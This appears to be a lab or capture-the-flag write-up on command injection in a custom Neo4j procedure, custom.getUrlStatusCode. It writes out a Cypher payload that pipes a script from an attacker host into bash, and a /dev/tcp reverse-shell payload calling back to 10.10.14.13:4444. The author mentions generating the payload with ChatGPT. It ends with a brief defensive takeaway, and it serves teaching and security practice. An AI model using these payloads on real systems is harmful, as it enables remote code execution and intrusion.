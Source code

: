 ### 🔓 Security Impact

#### ✅ If user input is:

cypher
CopyEdit
`CALL custom.getUrlStatusCode("http://example.com")`
→ Runs:
sh
CopyEdit
`curl -s -o /dev/null --connect-timeout 1 -w %{http_code} http://example.com`
\#### ❌ But if user input is:

cypher
CopyEdit
`CALL custom.getUrlStatusCode("127.0.0.1; curl http://attacker/payload.sh | bash")`

→ Runs:
sh
CopyEdit
`curl -s -o /dev/null --connect-timeout 1 -w %{http_code} 127.0.0.1; curl http://attacker/payload.sh | bash`

💥 **RCE achieved.** Shell executes attacker's script.

### 🛠️ How to Exploit

If Neo4j allows this procedure to be called via Cypher injection or direct access, then:
- You can execute arbitrary shell commands.
- You can **fetch and run a reverse shell**, drop payloads, or exfiltrate files.
Example reverse shell payload:
cypher
CopyEdit
`CALL custom.getUrlStatusCode("127.0.0.1; bash -c 'bash -i >& /dev/tcp/10.10.14.13/4444 0>&1'")`
Make sure your listener is running on `10.10.14.13:4444`.

------------------------------------------------------------------------

### 🛡️ Defensive Takeaway

This code violates secure coding principles:
- It **passes unsanitized input to `/bin/sh`**
- It **mixes input validation with command construction**
- It **trusts URLs that may contain shell metacharacters**

# Generating a injection payload

-for Neo4j cypher using the custom.getUrlStatusCode() function which runs a shell directly

Following payload using the getUrlStatusCode using ChartGPT gives a reverse shell by calling back to netcat on my kali vm on 10.10.14.13:4444

    CALL custom.getUrlStatusCode("127.0.0.1; bash -c 'bash -i >& /dev/tcp/10.10.14.13/4444 0>&1'")
